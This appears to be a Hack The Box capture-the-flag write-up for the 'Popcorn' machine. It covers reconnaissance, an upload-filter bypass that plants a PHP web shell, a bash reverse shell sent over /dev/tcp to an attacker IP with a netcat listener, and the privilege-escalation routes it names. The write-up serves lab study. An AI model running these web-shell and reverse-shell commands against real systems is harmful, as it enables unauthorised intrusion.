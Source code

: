 ```yaml
---
title: htb popcorn
author: Yuchao
date: 2021-03-15 11:33:00 +0800
categories: [sec]
tags: [htb, pam, dirtycow]
math: true
mermaid: true
---
```


## Recon

#### nmap 
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.6
nmap -p 22,80 -sC -sV -oA scans/tcpscripts 10.10.10.6
```
- OpenSSH 5.1p1, Apache httpd 2.2.12  ---> older than Ubuntu Trusty 14.04 ---> Karmic (9.10)

#### Directory discovery
```bash
# directory discover
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root-med -t 40
```
- get the path: /test (Status: 200) /index (Status: 200) /torrent (Status: 301) /rename (Status: 301)
- show a PHP info page.
- ``` file_uploads ``` is set to ON
- may vulnerable to Local File Inclusion.(LFI)
- /torrent can upload image as screen shot
- and the picture is saved at ``` http://10.10.10.6/torrent/upload/ ```

## upload webshell
#### manipulate php to bypass picture filters
- 1. file extension (the server did not have check this)
- 2. Content-Type header (this filter works on the server)
- 3. magic bytes (did not work)

so just change the http header,
add the php code before a png content in Burpsuite.
```php
<?php system($_REQUEST["cmd"]);?>
```

#### upload
cmd.php seems to be rename as its hash value, as 0ba973670d943861fb9453eecefd3bf7d3054713.php.

#### execute
``` curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id ```

## reverse shell
webshell
```bash
curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
```
attacker
```bash
nc -lnvp 443
```
upgrade the shell
``` bash
python -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo
fg
```

## privesc

#### Method 1: Linux PAM vulnerability
show the programs use PAM
```
$ ls /etc/pam.d 
chfn common-account common-session lightdm login passwd runuser sshd  su-l chpasswd  common-auth common-session-noninteractive lightdm-autologin newusers polkit-1 runuser-l su
chsh common-password  cron lightdm-greeter other ppp samba sudo
```
The pam modules directory. Can be configured to the programs above
```
/usr/lib/x86_64-linux-gnu/security
```
at user`s file
``` find . -type f -ls ```
``` /.cache/motd.legal-displayed ``` looks interesting.
- Googling for “motd.legal-displayed privesc”
- https://www.exploit-db.com/exploits/14339
- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation
- PAM will create ``` .cache/motd.legal-displayed ``` when login.
- https://askubuntu.com/questions/256020/how-can-i-stop-the-automatic-creation-of-cache-motd-legal-displayed-file
- sshd use pam to authenticate, so we need to ssh to the box.(as www-data)


#### Method 2: Dirty Cow

